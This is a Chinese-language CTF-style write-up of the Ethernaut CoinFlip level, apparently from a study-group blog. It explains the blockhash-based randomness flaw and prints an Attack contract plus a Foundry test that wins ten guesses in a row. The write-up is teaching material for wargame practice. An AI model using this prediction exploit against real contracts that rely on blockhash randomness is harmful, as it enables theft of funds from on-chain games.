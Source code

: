 # Foundry 通关 Ethernaut（2）— CoinFlip 

参加残酷共学打卡活动，记录一下这段时间的收获

## 目标

猜对10次

## 漏洞合约

先来看漏洞合约本身，简单概括其核心功能：

flip

1. 给定一个固定值 **FACTOR，**
2. 获取前一个区块的哈希并转成 uint256
3. 记录这个哈希为 **lastHash** （防止在同一个区块多次猜奖，比如第一次猜true，第二次猜false）
4. 哈希除以固定值 **FACTOR**，（由于 solidity 没有小数，所以只有1or0，大于或小于），1 为 true，0 为 false
5. 用户输入 猜测的 false 或 true，猜对，对应的 consecutiveWins 加一

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {
    uint256 public consecutiveWins;
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor() {
        consecutiveWins = 0;
    }

    function flip(bool _guess) public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
            revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        if (side == _guess) {
            consecutiveWins++;
            return true;
        } else {
            consecutiveWins = 0;
            return false;
        }
    }
}
```

## 思路

在合约中，可以看到，哈希值是通过区块高度获取的，而在外部合约调用函数时，用户调用外部合约与合约调用合约两件事发生在同一个区块

那么，很显然，固定值是给出的，我们有了对应的区块高度，就可以直接获取 哈希/ 固定值 知道这个答案到底是 false 还是 true

## Attack

显然，我们需要计算对应的数据，所以，我们需要另写一个攻击脚本

```solidity
contract Attack is CoinFlip {

    CoinFlip public coin;
    constructor(address _coin){
        coin = CoinFlip(_coin);
    }
    function attack() external {
        // 计算对应值
        uint256 blockValue = uint256(blockhash(block.number - 1));
        if (lastHash == blockValue) {
            revert();
        }
        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        // 调用 flip 函数，这里flip函数将和 attack 函数在同一个区块中执行
        coin.flip(side);
    }
}
```

## foundry 复现

### 1. 测试脚本

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import {Test, console} from "forge-std/Test.sol";
import {CoinFlip,Attack} from "../src/CoinFlip.sol";

contract CoinFlipTest is Test {
    CoinFlip public coin;
    Attack public attackContract;

    function setUp() external {
        coin = new CoinFlip();
        console.log(address(coin));
        attackContract = new Attack(address(coin));
    }

    function test_attack() public {
        console.log("before",coin.consecutiveWins());

        for(uint256 i=0;i<10;i++){
            attackContract.attack();
            uint256 nextblock = block.number+1;
            // 设置区块高度
            vm.roll(nextblock);
        }
        console.log("after",coin.consecutiveWins());
    }
}
```

### 2. 要点

这里主要涉及：

**roll 作弊码：**

vm.roll 可以指定下一次调用的区块号

```solidity
function roll(uint256) external;
```

合约调用攻击函数 attack 后，lastVaule 已经记录了对应的值，防止我们在同一个区块中调用多次函数直接获胜，因此，我们需要使用 vm.roll 切换区块高度，这里为了方便直接使用当前区块的下一个区块，实际上，只要两次的区块高度不同即可

### 3. 测试

终端输入

```solidity
forge test --match-path test/CoinFlip.t.sol -vvvv
```

![image-20240905000023837](../pict/image-20240905000023837.png)

从打印结果来看，我们成功的获胜10次